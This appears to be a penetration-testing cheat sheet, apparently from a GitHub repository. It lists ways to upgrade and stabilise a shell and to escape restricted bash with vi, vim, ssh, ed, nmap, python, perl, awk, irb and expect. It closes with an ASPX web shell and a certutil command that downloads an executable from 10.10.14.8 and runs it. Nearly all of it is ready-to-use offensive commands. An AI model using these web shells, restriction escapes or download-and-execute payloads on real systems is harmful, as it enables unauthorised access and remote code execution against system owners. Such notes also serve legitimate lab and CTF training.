 # Spawn a shell

**Again this is thanks to @S1REN and her code. Buy a coffee or a beer for Cat Mama**

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
#Keyboard Shortcut: 
Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset ; stty raw -echo ; fg ; reset
stty columns 200 rows 200
#* Grab a valid tty.
#* What OS are you on? 
#Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD* 
#Want a color terminal to easily tell apart file permissions? 
#Directories? Files?
#* Fastest way to list out the files in a directory, show size, show permissions, human readable.
```

**Is this rbash** (*Restricted Bash*)**?** PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

**Is this rbash** (*Restricted Bash*)**?** PT2
(*This requires ssh user-level access*)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(*Bash Shell*)

**Is python present on the target machine?**
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

**Is perl present on the target machine?**
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

**Is AWK present on the target machine?**
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

**Is ed present on the target machines?**
ed
!sh

**IRB Present on the target machine?**
exec "/bin/sh"

**Is Nmap present on the target machine?**
nmap --interactive
nmap> !sh

**Expect:**

```shell
expect -v  
    expect version 5.45.4  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash 
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh
```

**ASPX shell script**

```aspx
<%
Set rs = CreateObject("WScript.shell")
Set cmd = rs.Exec("cmd /c ping 10.10.14.19")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
Replace the command with this you can download a file and execute `Set cmd = rs.Exec("certutil -urlcache -split -f http://10.10.14.8/agent.exe c:\\users\\public\\agent.exe && cmd /c c:\users\public\agent.exe")`